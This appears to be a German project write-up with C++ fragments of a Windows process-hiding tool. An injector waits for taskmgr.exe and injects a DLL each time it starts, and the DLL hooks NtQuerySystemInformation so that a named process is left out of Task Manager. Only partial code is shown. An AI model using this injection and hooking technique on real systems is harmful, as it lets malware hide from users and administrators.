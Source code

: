 ```cpp
					NTSTATUS status = MyRtlAnsiStringToUnicodeString(&hiddenName, &originalString, true);

					if (NT_SUCCESS(status))
					{
						if (ntQueryAddr)
						{
							#if _WIN64
								hooker.HookFunction64(ntQueryAddr, &MyNtQuerySystemInformation, &hookData);
							#elif _WIN32							
								// Currently unsupported. 
							#endif
						}
					}
				}
			}

			CloseHandle(pipe);
		}

		break;
    case DLL_THREAD_ATTACH:
		break;
    case DLL_THREAD_DETACH:
		break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```



**Injector:**

**OpenProcess**: Liest die ProcID des laufenden Taskmanagers, um die DLL zu injecten.

InjectDLL: Jetzt wird in die Taskmanager.exe mit einer DLL injected, um in den Prozess laufend reinzuschreiben.

Bei der **WriteFile()** Funktion wird der hiddenName übergeben, der nicht angezeigt werden soll (WINAPI). Hier wird in den Prozess geschrieben

Im Hintergrund läuft auch eine Hook, die schaut, wann der Taskmanager ausgeführt wird. Wenn man es schließt und öffnet, wird jedes mal injected.

```cpp
while (1)
	{
		if (shouldPrintSearchMessage)
		{
			shouldPrintSearchMessage = 0;
			con.WriteLine("Searching for taskmgr.exe...");
		}

		Sleep(10);

		pid = manager.GetPidFromProcessName(L"taskmgr.exe");
		
		if (pid != -1)
		{
			shouldPrintSearchMessage = 1;
			con.WriteLine("Found taskmgr.exe...");


```